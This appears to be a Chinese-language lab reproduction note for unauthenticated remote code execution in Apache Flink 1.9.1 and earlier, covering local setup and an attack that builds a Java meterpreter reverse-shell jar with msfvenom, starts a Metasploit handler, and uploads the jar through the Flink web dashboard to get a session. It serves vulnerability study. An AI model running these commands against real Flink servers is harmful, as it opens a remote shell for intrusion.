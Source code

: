 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Flink 1.9.1

# 0x01 环境搭建
目标环境：centos7_x64_en-us + flink-1.9.1-bin-scala_2.11.tgz + openjdk version "1.8.0_181"

wget https://archive.apache.org/dist/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz  
tar -xvf ./flink-1.9.1-bin-scala_2.11.tgz  
cd ./flink-1.9.1/bin/  
./start-cluster.sh  
查看端口8081是否开启，如下图  
![image](./0.png)  
浏览器访问，出现下图所示，表示成功启动  
![image](./1.png)

# 0x02 利用条件
无

# 0x03 影响版本
Flink <= 1.9.1

# 0x04 漏洞复现
攻击环境：kali2020 + msf5

msfvenom -p java/meterpreter/reverse_tcp lhost=172.16.35.128 lport=9999 -o text.jar  
msfconsole  
use exploit/multi/handler  
set payload java/meterpreter/reverse_tcp  
set lhost 172.16.35.128  
set lport 9999  
run  
浏览器访问http://172.16.35.131:8081/ 后点击下图所示  
![image](./2.png)  
再点击下图所示  
![image](./3.png)  
此时，meterpreter已经收到session，如下图  
![image](./4.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
